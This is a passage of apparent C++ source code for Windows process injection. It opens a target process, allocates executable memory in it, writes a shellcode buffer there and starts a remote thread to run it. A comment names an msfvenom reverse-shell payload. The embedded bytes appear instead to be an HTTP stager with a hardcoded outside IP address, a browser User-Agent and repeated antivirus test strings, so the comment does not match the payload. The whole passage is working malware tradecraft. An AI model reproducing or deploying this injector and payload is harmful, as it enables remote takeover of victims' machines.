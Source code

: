 ```

}

int main()
{
    HANDLE hProcess;
    SIZE_T dwSize = 892;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
    hProcess = GetProcesHandleName();

 // msfvenom -p windows/x64/shell_reverse_tcp LHOST=xx.xx.xx.xx LPORT=1337 -f c
    unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x48\x38\x68\x75\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x32\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x36\x2e\x30\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x33\x35\x2e\x31\x37\x30\x2e\x32\x34\x35\x2e\x36\x32\x00\x00\x00\x00\x00";

    memAddr = VirtualAllocEx(hProcess, NULL, dwSize,flAllocationType,flProtect);
    cout << "[+] Memory Allocated at:" << memAddr << "\n";
    
    WriteProcessMemory(hProcess, memAddr, buf, dwSize, &bytesOut);
    cout << "[+] Number of bytes written: " << bytesOut << "\n";

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    return 0;
}

```
